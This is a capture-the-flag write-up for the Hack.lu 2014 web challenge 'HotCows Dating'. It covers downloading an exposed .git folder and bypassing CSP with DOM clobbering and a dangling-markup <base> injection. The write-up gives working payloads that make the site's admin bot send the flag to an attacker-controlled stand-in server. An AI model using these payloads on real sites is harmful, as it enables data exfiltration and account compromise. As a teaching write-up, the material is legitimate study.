


# Hack.lu CTF 2014: HotCows Dating

**Category:** Web
**Points:** 400
**Author:** qll
**Description:**

> If you want to take a break from all the hard work, you’ve come to the right place. Many things have been said about this dating service. Some say it holds your greatest desires, some say it is merely disgusting. All of it is probably true, but see for yourself… <https://wildwildweb.fluxfingers.net:1401/>
>
> **Hint:** Let’s start with an obvious hint: What do we tell search engines about cow love? “No no”.
>
> **Note:** The support uses Chromium (37) which does support CSP, does not have any particularly interesting extensions and is most certainly no Internet Explorer. Support also does not see anything else than you. They really just visit the cow’s profile you give them.

## Write-up

<https://wildwildweb.fluxfingers.net:1401/> is a dating site for cows. After signing up for an account and logging in, we’re redirected to <https://wildwildweb.fluxfingers.net:1401/?p=internal> where we can choose a hot, single cow to chat with. Selecting ‘Rosie’ brings us to `https://wildwildweb.fluxfingers.net:1401/?p=chat#Rosie` which displays a chat interface:



The ‘Report a Problem’ button links to `https://wildwildweb.fluxfingers.net:1401/?p=report` where you can enter the name of a cow and a description of the issue you’re having.



Some further site recon reveals an interesting `robots.txt` file:

```bash
$ curl https://wildwildweb.fluxfingers.net:1401/robots.txt
User-agent: *
Disallow: /index.php?api=*
Disallow: /.git/
```

And sure enough, their entire `.git` folder is available at `https://wildwildweb.fluxfingers.net:1401/.git/`. Let’s download the whole thing:

```bash
$ wget -r https://wildwildweb.fluxfingers.net:1401/.git/
```

This is a so-called _bare Git repository_: it contains the repository data but not the actual files. Luckily it’s possible to extract those:

```bash
$ ls -la
total 0
drwxr-xr-x   3 mathias  staff  102 Oct 22 16:57 .
drwxr-xr-x   6 mathias  staff  204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff  476 Oct 22 17:00 .git

$ git config --local --bool core.bare false

$ git checkout -f

$ ls -la
total 24
drwxr-xr-x  12 mathias  staff   408 Oct 22 17:03 .
drwxr-xr-x   6 mathias  staff   204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff   476 Oct 22 17:03 .git
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 api
-rw-r--r--   1 mathias  staff  1499 Oct 22 17:03 cfg.php
drwxr-xr-x   3 mathias  staff   102 Oct 22 17:03 css
-rw-r--r--   1 mathias  staff   555 Oct 22 17:03 index.php
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 js
drwxr-xr-x   4 mathias  staff   136 Oct 22 17:03 lib
-rw-r--r--   1 mathias  staff    57 Oct 22 17:03 robots.txt
drwxr-xr-x   7 mathias  staff   238 Oct 22 17:03 static
drwxr-xr-x  10 mathias  staff   340 Oct 22 17:03 templates
```

Now we have access to [the full source code for the site](https://github.com/ctfs/write-ups/tree/master/hack-lu-ctf-2014/hotcows-dating/source).

Studying the code reveals that the flag is messaged to premium account users when they start a new chat session. See [the `page.firstMessage` function in `js/pages/chat.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L200-L218). Since there’s no way for us to get a premium account, we’ll have to find a way to have a premium user do this for us, and then leak the flag somehow.

We guessed that the ‘report a problem’ functionality would cause a logged-in site administrator to visit the profile for the cow whose name you enter. What if we can get a cross-site scripting (XSS) vector in there?

Eventually, this is the cow name we entered (explanation follows):

```
https://our-server.example.com/<form name=getElementById></form>
```

We assumed that this would cause the server admin to visit the following URL:

```
https://wildwildweb.fluxfingers.net:1401/?p=chat#https://our-server.example.com/<form name=getElementById></form>
```

And indeed – a few moments later we got a hit on our server:

```
149.13.33.84 - - [22/Oct/2014 15:51:58] "GET /%3Cform%20name=getElementById%3E%3C/form%3E%20(PREM_flag%7Bcows_need_love_too!%7D) HTTP/1.1" 404 -
```

After URL-decoding, that becomes:

```
<form name=getElementById></form> (PREM_flag{cows_need_love_too!})
```

The flag is `flag{cows_need_love_too}`. But why on earth did this work?!

[The `page.view` function around line 134 of `js/pages/chat.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L131-L198) contains this snippet:

```js
cow_name = location.hash.slice(1);
/* … */
temp_main = new Template('cow.html');
temp_main.assign(cow_name, 'cow');
temp_main.render();
```

`location.hash.slice(1)` is the part of the URL following `#`, which is under our control. Since this value is never sanitized, this creates an XSS vulnerability. However, [the site is sending a CSP header which disallows inline scripts](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/cfg.php#L40):

```
Content-Security-Policy: default-src 'none'; img-src 'self'; script-src 'self'; style-src 'self'; connect-src 'self'
```

So injecting scripts won’t work, but we can still insert arbitrary HTML. So why did we inject `<form name=getElementById></form>`, of all things? When the above code is executed, and the `<form>` is inserted into the DOM, we’ve successfully [clobbered](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/) `document.getElementById`: it is now a reference to the injected `<form>` element rather than the DOM method the rest of the script expects. That’s why the next line throws an exception:

```js
btn_logout = document.getElementById('btn-logout');
```

Since the error is not caught using `catch`, the rest of the code in `page.view` never executes. This line, for example, is never reached:

```js
temp = new Template('message.html');
```

As a result, the global `temp` variable maintains its previous value, which is a reference to the built-in `location` object because of [this line in `js/router.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/router.js#L8-L9):

```js
router.route((m = /p=(\w+)/.exec(temp=location)) ? m[1] : 'index',
       (!!temp.hash) ? temp.hash.slice(1) : undefined);
```

When the page was loaded, [`js/pages/chat.js` set up a timer to call `page.firstMessage` after a second](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L224):

```js
setTimeout(page.firstMessage, 1000);
```

[The `page.firstMessage` function](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L200-L218) looks like this:

```js
/**
 * Greet the user after a while to avoid suspicion.
 */
page.firstMessage = function firstMessage() {
  if (!!temp) { // if template loaded
    temp.assign('system', 'class');
    temp.assign('In chat with', 'name')
    message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
    temp.assign(message, 'msg');
    page.appendMessage(temp);
    temp.assign('her', 'class');
    temp.assign(cow_name, 'name')
    temp.assign(page.chatAnswer('', cow_name), 'msg');
    page.appendMessage(temp);
  } else {
    // wait some more
    setTimeout(page.firstMessage, 1000);
  }
};
```

`temp.assign` is supposed to refer to [the custom `Template.prototype.assign` method as defined in `js/template.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/template.js#L9-L14), but because `temp` is now a reference to `location`, it’s actually [`location.assign`](https://html.spec.whatwg.org/multipage/browsers.html#dom-location-assign).

Note that thanks to our DOM clobbering attack, the call to [`page.appendMessage`](https://github.com/ctfs/write-ups/blob/382aa45be715459a132d44d160358845110e0e73/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L104-L111) throws an exception, since it attempts to use `document.getElementById`. As a result, the rest of the code in `page.firstMessage` is never executed. This leaves the following code:

```js
temp.assign('system', 'class');
temp.assign('In chat with', 'name')
message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
temp.assign(message, 'msg');
page.appendMessage(temp); // ← This throws an exception.
// The code below is never reached.
```

Another thing to keep in mind is that browsers batch successive calls to `location.assign` together. For example, this HTML document redirects you to `https://example.com/?q=b` and not `https://example.com/?q=a`:

```html
<script>
  location.assign('https://example.com/?q=a');
  location.assign('https://example.com/?q=b');
</script>
```

Similarly, only the last `temp.assign` call is effective:

```js
temp.assign(message, 'msg');
```

That’s good news, because it contains the flag! Now you know why/how that ‘exploit’ we showed you earlier works. Here it is one more time:

```
https://our-server.example.com/<form name=getElementById></form>
```

Isn’t it beautiful?

### Alternative, unintended solution

Another way to solve the challenge was to use a subtle form of a [dangling markup injection attack](http://lcamtuf.coredump.cx/postxss/#dangling-markup-injection) using a `<base>` tag to leak part of the HTML to a server under our control:

```
<base href=https://our-server.example.com/>
```

The challenge author confirmed on IRC that this is not the intended solution, although it is a very nice bypass. This exploit works because it uses a chain of lucky events:

1. When [instantiating a new `Template` object](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/template.js#L1-L7), the template is [immediately loaded via `XMLHttpRequest` and cached in the `sessionStorage`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/loader.js#L32-L42).
2. Since the injection ([lines 144 and 145 in `js/pages/chat.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L144)) already occurs before the load of the `message.html` template ([line 165](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L144)), the new base URL is in effect.
3. The page [uses a relative URL to load the `message.html` template](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L165), so it is hijacked by the base URL and blocked by CSP. The `XMLHttpRequest` fails with a `SecurityError`. Thus the `temp` variable is not set and remains to be the `location` object.
4. In [`page.appendMessage`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L104-L111) the `renderToString` function cannot be found on the `location` object and errors.
5. So this leaves a call to [`location.assign('<base href=https://our-server.example.com/> (PREM_flag{cows_need_love_too!})')`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L179). This is in fact a relative URL and hence hijacked by the new base URL.
6. Finally the browser redirects to `https://our-server.example.com/<base href=https://our-server.example.com/> (PREM_flag{cows_need_love_too!})`.

In a way, this exploit is even harder to find than the intended solution. Every attacker surfing on `chat.js` fills the `sessionStorage` with the legitimate `message.html` `Template`. This stops the exploit from working because it needs the first `SecurityError` due to the `XMLHttpRequest`.

## Other write-ups and resources

* [More info about _DOM clobbering_, the technique used to solve this challenge](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)
